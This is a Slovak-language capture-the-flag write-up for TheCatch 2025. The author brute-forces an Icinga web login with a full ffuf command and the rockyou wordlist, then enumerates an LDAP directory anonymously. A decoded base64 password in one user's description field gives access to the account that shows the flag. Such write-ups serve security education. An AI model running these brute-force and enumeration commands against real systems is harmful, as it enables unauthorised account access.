


# Zadanie

Hi, emergency troubleshooter,

the entire Monitoring Department went on a teambuilding trip to the Cayman Islands, into the wilderness outside civilization (and without any telecommunications), and forgot to appoint a deputy during their absence. Verify whether all power plants are still in good condition.

The only thing we know about the monitoring team is that they registered the domain `gridwatch.powergrid.tcc`.

Stay grounded!

**Hints**

- Many systems like to keep things simple — their usernames often resemble their own names.

## Riešenie

Na stránke `http://gridwatch.powergrid.tcc/` nič nie je, možno na inom porte. 

```
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

Po otverení stránky na tomto porte ma automaticky presmerovalo na `http://gridwatch.powergrid.tcc:8080/authentication/login`. Meno, ani heslo neviem, ale podľa hintu, keďže tam beží web systému icinga, súdim, že používateľ bude icinga a heslo skúsim brutnúť rockyou listom. Použijem `ffuf`, ale predtým pozriem čo sa pošle, keď kliknem na Login a podľa toho upravím ffuf príkaz. (Viem, šlo by to aj cez burp + bffuf, ale ja mam rád zbytočné veci :D ). Je tam CSRF token, ale ten sa zdá že prežije celú session pokusov.

```shell
$ffuf -X $'POST' \
-H $'Host: gridwatch.powergrid.tcc:8080'  \
-H $'Content-Length: 184' \
-H $'X-Icinga-Accept: text/html'  \
-H $'X-Icinga-Container: layout' \
-H $'Accept-Language: sk-SK,sk;q=0.9' \
-H $'X-Icinga-WindowId: khqwgvlefuzr' \
-H $'X-Requested-With: XMLHttpRequest' \
-H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36' \
-H $'Accept: */*' \
-H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
-H $'Origin: http://gridwatch.powergrid.tcc:8080' \
-H $'Referer: http://gridwatch.powergrid.tcc:8080/authentication/login' \
-H $'Accept-Encoding: gzip, deflate, br' \
-H $'Connection: keep-alive' \
-b $'_chc=1; Icingaweb2=p583ma13l0d7vfv6v9sr38uobe; icingaweb2-tzo=7200-1'      \
--data $'username=icinga&password=FUZZ&rememberme=0&redirect=&formUID=form_login&CSRFToken=1201882936%7Cfa2b42e7fb489a88378fea9632774821510f95be04783ddc11f409b7a4bba322&btn_submit=Login' \
-u $'http://gridwatch.powergrid.tcc:8080/authentication/login' \
-w rockyou.txt \
-fw 351

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://gridwatch.powergrid.tcc:8080/authentication/login
 :: Wordlist         : FUZZ: /mnt/c/ctf/TheCatch2025/rockyou.txt
 :: Header           : X-Icinga-Accept: text/html
 :: Header           : X-Icinga-Container: layout
 :: Header           : X-Icinga-Windowid: khqwgvlefuzr
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
 :: Header           : Content-Type: application/x-www-form-urlencoded; charset=UTF-8
 :: Header           : Referer: http://gridwatch.powergrid.tcc:8080/authentication/login
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Cookie: _chc=1; Icingaweb2=p583ma13l0d7vfv6v9sr38uobe; icingaweb2-tzo=7200-1
 :: Header           : Host: gridwatch.powergrid.tcc:8080
 :: Header           : Accept: */*
 :: Header           : Origin: http://gridwatch.powergrid.tcc:8080
 :: Header           : Accept-Language: sk-SK,sk;q=0.9
 :: Header           : Connection: keep-alive
 :: Header           : Content-Length: 184
 :: Header           : X-Requested-With: XMLHttpRequest
 :: Data             : username=icinga&password=FUZZ&rememberme=0&redirect=&formUID=form_login&CSRFToken=1201882936%7Cfa2b42e7fb489a88378fea9632774821510f95be04783ddc11f409b7a4bba322&btn_submit=Login
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

12345                   [Status: 200, Size: 3649, Words: 351, Lines: 34, Duration: 51ms]
1234567                 [Status: 200, Size: 3649, Words: 351, Lines: 34, Duration: 57ms]
butterfly               [Status: 200, Size: 3649, Words: 351, Lines: 34, Duration: 57ms]
iloveu                  [Status: 200, Size: 3649, Words: 351, Lines: 34, Duration: 56ms]
angel                   [Status: 200, Size: 3649, Words: 351, Lines: 34, Duration: 56ms]
```

Prvé heslá davali 351 words, tak pridáme k príkazu filter `-fw 351`.

Bežalo to pár minút a zjavil sa solídny kandidát na heslo a to `test`.

```shell
$ ffuf -X $'POST' \
-H $'Host: gridwatch.powergrid.tcc:8080'  \
-H $'Content-Length: 184' \
-H $'X-Icinga-Accept: text/html'  \
-H $'X-Icinga-Container: layout' \
-H $'Accept-Language: sk-SK,sk;q=0.9' \
-H $'X-Icinga-WindowId: khqwgvlefuzr' \
-H $'X-Requested-With: XMLHttpRequest' \
-H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36' \
-H $'Accept: */*' \
-H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
-H $'Origin: http://gridwatch.powergrid.tcc:8080' \
-H $'Referer: http://gridwatch.powergrid.tcc:8080/authentication/login' \
-H $'Accept-Encoding: gzip, deflate, br' \
-H $'Connection: keep-alive' \
-b $'_chc=1; Icingaweb2=p583ma13l0d7vfv6v9sr38uobe; icingaweb2-tzo=7200-1'      \
--data $'username=icinga&password=FUZZ&rememberme=0&redirect=&formUID=form_login&CSRFToken=1201882936%7Cfa2b42e7fb489a88378fea9632774821510f95be04783ddc11f409b7a4bba322&btn_submit=Login' \
-u $'http://gridwatch.powergrid.tcc:8080/authentication/login' \
-w rockyou.txt \
-fw 351

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://gridwatch.powergrid.tcc:8080/authentication/login
 :: Wordlist         : FUZZ: /mnt/c/ctf/TheCatch2025/rockyou.txt
 :: Header           : X-Icinga-Accept: text/html
 :: Header           : X-Icinga-Container: layout
 :: Header           : X-Icinga-Windowid: khqwgvlefuzr
 :: Header           : Accept: */*
 :: Header           : Content-Length: 184
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
 :: Header           : Referer: http://gridwatch.powergrid.tcc:8080/authentication/login
 :: Header           : Connection: keep-alive
 :: Header           : Host: gridwatch.powergrid.tcc:8080
 :: Header           : Accept-Language: sk-SK,sk;q=0.9
 :: Header           : X-Requested-With: XMLHttpRequest
 :: Header           : Content-Type: application/x-www-form-urlencoded; charset=UTF-8
 :: Header           : Origin: http://gridwatch.powergrid.tcc:8080
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Cookie: _chc=1; Icingaweb2=p583ma13l0d7vfv6v9sr38uobe; icingaweb2-tzo=7200-1
 :: Data             : username=icinga&password=FUZZ&rememberme=0&redirect=&formUID=form_login&CSRFToken=1201882936%7Cfa2b42e7fb489a88378fea9632774821510f95be04783ddc11f409b7a4bba322&btn_submit=Login
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 351
________________________________________________

                        [Status: 200, Size: 3661, Words: 355, Lines: 34, Duration: 27ms]
♥                [Status: 200, Size: 3661, Words: 355, Lines: 34, Duration: 28ms]
                        [Status: 200, Size: 3661, Words: 355, Lines: 34, Duration: 24ms]
++++++                  [Status: 200, Size: 3661, Words: 355, Lines: 34, Duration: 24ms]
                        [Status: 200, Size: 3661, Words: 355, Lines: 34, Duration: 21ms]
&hearts                 [Status: 200, Size: 3661, Words: 355, Lines: 34, Duration: 28ms]
                        [Status: 200, Size: 3661, Words: 355, Lines: 34, Duration: 24ms]
                        [Status: 200, Size: 3661, Words: 355, Lines: 34, Duration: 23ms]
test                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 29ms]
:: Progress: [176838/14344391] :: Job [1/1] :: 1704 req/sec :: Duration: [0:02:25] :: Errors: 0 ::
```



Je to tak, som prihlásený.

Prehľadal som stránku, či tam niekde nenájdem vlajku, ale nič tam nebolo. Avšak sú tu monitorované 3 endpointy, ktoré stoja za hriech. webserver sa ale javí byť tento web, pri db nemám ip a dns nevie o ňom, ale ldap mám ip 10.99.25.52, tak skúsime poštekliť ldap.

```shell
$ ldapsearch -x -H ldap://10.99.25.52 -s base -b "" namingContexts
# extended LDIF
#
# LDAPv3
# base <> with scope baseObject
# filter: (objectclass=*)
# requesting: namingContexts
#

#
dn:
namingContexts: dc=ldap,dc=powergrid,dc=tcc

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

Super, tak máme BaseDN, skúsim anonymnú enumeráciu.

```shell
$ ldapsearch -x -H ldap://10.99.25.52 -b 'dc=ldap,dc=powergrid,dc=tcc' -s sub -LLL '(objectClass=*)'
dn: dc=ldap,dc=powergrid,dc=tcc
objectClass: top
objectClass: dcObject
objectClass: organization
o: powergrid
dc: ldap

dn: ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: organizationalUnit
ou: Users
description: OU for standard users

dn: ou=Services,dc=ldap,dc=powergrid,dc=tcc
objectClass: organizationalUnit
ou: Services
description: OU for service accounts

dn: uid=svc_icinga_ldap,ou=Services,dc=ldap,dc=powergrid,dc=tcc
objectClass: account
objectClass: simpleSecurityObject
objectClass: top
uid: svc_icinga_ldap
description: Icinga ldap read service account

dn: ou=Groups,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: organizationalUnit
ou: Groups

dn: cn=icinga-operators,ou=Groups,ou=Users,dc=ldap,dc=powergrid,dc=tcc
cn: icinga-operators
objectClass: groupOfNames
objectClass: top
member: uid=mscott,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=mmoss,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=rtrenneman,ou=Users,dc=ldap,dc=powergrid,dc=tcc
description: Operators group for access to icinga GUI, http://10.99.25.51/

dn: uid=jhalpert,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: jhalpert
cn: jhalpert
sn: Halpert
displayName: Jim Halpert

dn: cn=sales,ou=Groups,ou=Users,dc=ldap,dc=powergrid,dc=tcc
cn: sales
objectClass: groupOfNames
objectClass: top
member: uid=jhalpert,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=pvance,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=amartin,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=kmalone,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=mpalmer,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=pbeesly,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=rhoward,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=shudson,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=abernard,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=dschrute,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=omartinez,ou=Users,dc=ldap,dc=powergrid,dc=tcc
description: Sales group for local branch

dn: uid=mscott,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: mscott
cn: mscott
sn: Scott
displayName: Michael Scott
description: UHdkIHJlc2V0IHRvIFRoYXRzd2hhdHNoZXNhaWQK

dn: uid=dschrute,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: dschrute
cn: dschrute
sn: Schrute
displayName: Dwight Schrute

dn: uid=pbeesly,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: pbeesly
cn: pbeesly
sn: Beesly
displayName: Pam Beesly

dn: uid=rhoward,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: rhoward
cn: rhoward
sn: Howard
displayName: Ryan Howard

dn: uid=abernard,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: abernard
cn: abernard
sn: Bernard
displayName: Andy Bernard

dn: uid=shudson,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: shudson
cn: shudson
sn: Hudson
displayName: Stanley Hudson

dn: uid=kmalone,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: kmalone
cn: kmalone
sn: Malone
displayName: Kevin Malone

dn: uid=mpalmer,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: mpalmer
cn: mpalmer
sn: Palmer
displayName: Meredith Palmer

dn: uid=amartin,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: amartin
cn: amartin
sn: Martin
displayName: Angela Martin

dn: uid=omartinez,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: omartinez
cn: omartinez
sn: Martinez
displayName: Oscar Martinez

dn: uid=pvance,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: pvance
cn: pvance
sn: Vance
displayName: Phyllis Vance

dn: cn=managers,ou=Groups,ou=Users,dc=ldap,dc=powergrid,dc=tcc
cn: managers
objectClass: groupOfNames
objectClass: top
member: uid=mscott,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=jbarber,ou=Users,dc=ldap,dc=powergrid,dc=tcc
description: Manager group for local branch

dn: uid=rtrenneman,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: rtrenneman
cn: rtrenneman
sn: Trenneman
displayName: Roy Trenneman

dn: uid=mmoss,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: mmoss
cn: mmoss
sn: Moss
displayName: Maurice Moss

dn: uid=jbarber,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: jbarber
cn: jbarber
sn: Barber
displayName: Jen Barber

dn: cn=it,ou=Groups,ou=Users,dc=ldap,dc=powergrid,dc=tcc
cn: it
objectClass: groupOfNames
objectClass: top
member: uid=mmoss,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=rtrenneman,ou=Users,dc=ldap,dc=powergrid,dc=tcc
description: IT group for local branch

dn: uid=icinga,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: icinga
cn: icinga
sn: Test
displayName: Icinga Test
description: Test icinga user LDAP

dn: cn=icinga-users,ou=Groups,ou=Users,dc=ldap,dc=powergrid,dc=tcc
cn: icinga-users
objectClass: groupOfNames
objectClass: top
description: LDAP group for access to icinga GUI, http://10.99.25.51/
member: uid=mscott,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=mmoss,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=rtrenneman,ou=Users,dc=ldap,dc=powergrid,dc=tcc
member: uid=icinga,ou=Users,dc=ldap,dc=powergrid,dc=tcc
```

Ha ha, made my day.. Používatelia sú mená postáv z kultového a môjho veľmi obľubeného seriálu The Office v US verzii. Pri používateľovi Michael Scott máme takýto záznam

```
dn: uid=mscott,ou=Users,dc=ldap,dc=powergrid,dc=tcc
objectClass: inetOrgPerson
objectClass: top
uid: mscott
cn: mscott
sn: Scott
displayName: Michael Scott
description: UHdkIHJlc2V0IHRvIFRoYXRzd2hhdHNoZXNhaWQK
```

s popisom v base64, po dekódovaní `Pwd reset to Thatswhatshesaid`. Made my day again. Skúsim sa odhlásiť a prihlásiť ako používateľ `mscott` s heslom `Thatswhatshesaid`.



Bingo, a dokonca status jeho monitorovaných endpoitov hlási rovno vlajku.

`Current status: FLAG{KWT6-EoVP-uE47-9PtN}`

## Vlajka

    FLAG{KWT6-EoVP-uE47-9PtN}
